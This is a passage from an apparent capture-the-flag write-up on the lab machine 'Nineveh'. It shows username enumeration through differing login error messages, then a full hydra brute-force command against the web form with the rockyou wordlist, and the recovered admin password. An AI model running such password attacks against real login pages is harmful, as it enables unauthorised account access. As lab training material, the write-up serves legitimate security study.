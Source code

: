 From this - only thing that returned was the `/department` directory. This was a web login form.

![Port 80 Department page](screenshots/80_department.png)

This was a nice form that gave away useful details. I tried a few simple username/password combos and noticed that the error message returned varied based on the input.

- `invalid username`
- `Invalid Password!`

From a quick test it seemed that `admin` was a valid username. Taking this as a hint to password attack the web form, I intercepted a request and forged a `hydra` command.

```none
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:F=Invalid Password"
```

After making a cup of tea - success!

```none
[STATUS] 2373.00 tries/min, 2373 tries in 00:01h, 14342026 to do in 100:44h, 16 active
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-04 14:48:59
```

Logged in and noticed a construction-style landing page. Had a look at the "Notes" section - which is literally notes! I thought it would have been a web app note taking thing - but it is a list of notes from "amrois" to the developer. The notes left are:

```none
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```
